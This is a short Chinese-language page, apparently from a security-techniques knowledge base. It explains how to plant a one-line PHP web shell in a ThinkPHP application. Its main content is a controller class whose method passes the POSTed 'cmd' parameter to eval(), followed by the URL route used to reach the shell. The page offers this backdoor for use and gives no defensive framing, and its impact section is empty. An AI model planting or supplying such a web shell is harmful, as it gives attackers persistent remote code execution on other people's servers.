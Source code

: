 ```yaml
---
title: Thinkphp专用shell
id: zhfly3142
---
```


# Thinkphp 专用shell

## 一、漏洞简介

基于thinkphp框架的一句话写法 thinkphp框架使用入口文件调用控制器，直接写一句话可能会有解析问题导致无法执行指令，研究了一下把一句话套入框架控制器的方法，分享给大家参考，

## 二、漏洞影响

## 三、复现过程

在index的控制器文件夹下建立Test.php文件，代码如下:

```
<?php 
namespace app\index\controller; 

class Test

{

```
public function test() 

{ 

eval($_POST["cmd"]); 

} 
```

} 
```

一句话的地址就是http://www.0-sec.org/index/test/test